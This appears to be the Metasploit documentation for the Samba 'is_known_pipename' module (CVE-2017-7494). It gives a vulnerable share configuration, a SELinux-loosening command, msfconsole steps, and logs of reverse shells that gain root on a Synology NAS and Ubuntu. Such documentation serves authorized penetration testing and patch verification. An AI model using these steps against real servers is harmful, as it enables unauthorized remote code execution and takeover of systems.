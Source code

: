 ## Vulnerable Application

This module exploits Samba from versions 3.5.0-4.4.14, 4.5.10, and 4.6.4 by loading a malicious shared library.
Samba's download archives are [here](https://download.samba.org/pub/samba/stable/).  There are some requirements
for this exploit to be successful:

1. Valid credentials
2. Writeable folder in an accessible share
3. Server-side path of the writeable folder

However, in some cases anonymous access with common filesystem locations can be used to automate exploitation.

A vulnerable Samba config may have a share similar to the following in `smb.conf`.  This is a setup for 'easy' exploitation
where no SMB options are required to be set:

```
[exploitable]
comment = CVE-2017-7494
path = /tmp
writable = yes
browsable = yes
guest ok = yes
```

Verified on:

1. Synology DS412+ DSM 6.1.1-15101 Update 2 (Samba 4.4.9)
2. Synology DS412+ DSM 6.1.1-15101 Update 3 (Samba 4.4.9)
3. Synology DS1512+ DSM 6.1.1-15101 Update 2 (Samba 4.4.9)
4. Synology DS1512+ DSM 6.1.1-15101 Update 3 (Samba 4.4.9)
5. Synology DS2415+ DSM 6.1-15047 (Samba 4.3.11)
6. Ubuntu 14.04.5 x64 (Samba 4.3.9)
7. Ubuntu 15.04 (Samba 4.1.13)
8. Ubuntu 16.04 (Samba 4.3.11)
   * 1:4.3.11+dfsg-0ubuntu0.16.04.3 and older are vulnerable, fixed in [2:4.3.11+dfsg-0ubuntu0.16.04.7](https://launchpad.net/ubuntu/+source/samba/2:4.3.11+dfsg-0ubuntu0.16.04.7)
9. Fedora 24 (Samba 4.4.13)

Currently not working against:

1. QNAP NAS Samba 4.4.9 on armv71
2. WD MyClous NAS Samba 4.0.0rc5 armv71

### SELinux

Fedora (and possibly Redhat) are not exploitable in their default installation.  SELinux must be adjusted to allow nmbd to use net_admin, and smbd to exec the payload.

```
echo -ne "type=AVC msg=audit(1495745298.086:334): avc:  denied  { execstack } for  pid=2365 comm="smbd" scontext=system_u:system_r:smbd_t:s0 tcontext=system_u:system_r:smbd_t:s0 tclass=process permissive=0\ntype=AVC msg=audit(1495717997.099:267): avc:  denied  { net_admin } for  pid=959 comm="nmbd" capability=12  scontext=system_u:system_r:nmbd_t:s0 tcontext=system_u:system_r:nmbd_t:s0 tclass=capability permissive=0\ntype=AVC msg=audit(1495745002.690:308): avc:  denied  { execmem } for  pid=1830 comm="smbd" scontext=system_u:system_r:smbd_t:s0 tcontext=system_u:system_r:smbd_t:s0 tclass=process permissive=0\ntype=AVC msg=audit(1495745183.319:331): avc:  denied  { execute } for  pid=2313 comm="smbd" path="/tmp/ucFtDpZI.so" dev="tmpfs" ino=27436 scontext=system_u:system_r:smbd_t:s0 tcontext=system_u:object_r:smbd_tmp_t:s0 tclass=file permissive=0" | audit2allow -M cve-2017-7494; semodule -X 300 -i cve-2017-7494.pp
```

## Verification Steps

1. Start msfconsole
2. Do: ```use exploit/linux/samba/is_known_pipename```
3. Do: ```set rhost [ip]```
4. Do: ```set target [target #]```
5. Do: ```exploit```

## Options

  **SMB_SHARE_NAME**

  The name of the SMB share containing a writeable directory.  Shares are automatically scanned for, and if this
  variable is non-blank, it will be preferred.

  **SMB_SHARE_BASE**

  The remote filesystem path correlating with the SMB share name.  This value is preferred, but other values are
  brute forced including:

1. /volume1
2. /volume2
3. /volume3
4. /shared
5. /mnt
6. /mnt/usb
7. /media
8. /mnt/media
9. /var/samba
10. /tmp/home/home/shared

  **SMB_FOLDER**

  The directory to use within the writeable SMB share.  Writable directories are automatically scanned for, and if this
  variable is non-blank, it will be preferred.

## Scenarios

### Synology DS412+ w/ INTEL Atom D2700 on DSM 6.1.1-15101 Update 2

```
msf exploit(is_known_pipename) > exploit

[*] Started reverse TCP handler on 1.2.3.117:4444
[*] 1.2.3.119:445 - Using location \\1.2.3.119\ESX\ for the path
[*] 1.2.3.119:445 - Payload is stored in //1.2.3.119/ESX/ as eePUbtdw.so
[*] 1.2.3.119:445 - Trying location /volume1/eePUbtdw.so...
[-] 1.2.3.119:445 - Probe: /volume1/eePUbtdw.so: The server responded with error: STATUS_OBJECT_NAME_NOT_FOUND (Command=162 WordCount=0)
[*] 1.2.3.119:445 - Trying location /volume1/ESX/eePUbtdw.so...
[*] Command shell session 1 opened (1.2.3.117:4444 -> 1.2.3.119:34366) at 2017-05-24 21:12:07 -0400

id
uid=0(root) gid=0(root) groups=0(root),100(users)
uname -a
Linux synologyNAS 3.10.102 #15101 SMP Fri May 5 12:01:38 CST 2017 x86_64 GNU/Linux synology_cedarview_412+
```

### Ubuntu 16.04

```
msf exploit(is_known_pipename) > exploit

[*] Started reverse TCP handler on 192.168.0.3:4444
[*] 192.168.0.3:445 - Using location \\192.168.0.3\yarp\h for the path
[*] 192.168.0.3:445 - Payload is stored in //192.168.0.3/yarp/h as GTithXJz.so
[*] 192.168.0.3:445 - Trying location /tmp/yarp/h/GTithXJz.so...
[*] Command shell session 6 opened (192.168.0.3:4444 -> 192.168.0.3:45076) at 2017-05-24 19:41:40 -0500

id
uid=65534(nobody) gid=0(root) groups=0(root),65534(nogroup)
```
